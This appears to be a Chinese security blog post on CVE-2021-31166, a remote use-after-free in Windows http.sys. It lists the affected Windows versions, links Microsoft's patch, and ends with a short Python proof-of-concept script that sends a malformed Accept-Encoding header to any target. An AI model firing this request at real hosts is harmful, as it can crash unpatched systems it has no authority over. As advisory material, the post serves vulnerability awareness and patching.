```yaml
---
layout: post
title: "HTTP协议栈远程代码执行漏洞CVE-2021-31166"
subtitle: 'HTTP协议栈远程代码执行漏洞'
author: "hackeyes"
header-style: text
tags:
  - 网络攻防
---
```


# 漏洞详情

HTTP协议栈远程代码执行漏洞（CVE-2021-31166），该漏洞存在于HTTP 协议栈 (http.sys) 的处理程序中，未经身份验证的远程攻击者可通过向目标主机发送特制数据包来进行利用，从而在目标系统上以内核身份执行任意代码。

影响范围：

- Windows Server, version 20H2 (Server Core Installation)
- Windows 10 Version 20H2 for ARM64-based Systems
- Windows 10 Version 20H2 for 32-bit Systems
- Windows 10 Version 20H2 for x64-based Systems
- Windows Server, version 2004 (Server Core installation)
- Windows 10 Version 2004 for x64-based Systems
- Windows 10 Version 2004 for ARM64-based Systems
- Windows 10 Version 2004 for 32-bit Systems

修复建议：

目前微软官方已针对支持的产品版本发布了修复此漏洞的安全补丁，强烈建议受影响用户尽快安装补丁进行防护，官方下载链接：https://msrc.microsoft.com/update-guide/en-us/releaseNote/2021-May

# POC

```
import requests
import argparse

def main():
    parser = argparse.ArgumentParser('Poc for CVE-2021-31166: remote UAF in HTTP.sys')
    parser.add_argument('--target', required = True)
    args = parser.parse_args()
    r = requests.get(f'http://{args.target}/', headers = {
        'Accept-Encoding': 'doar-e, ftw, imo, ,',
    })
    print(r)

main()
```



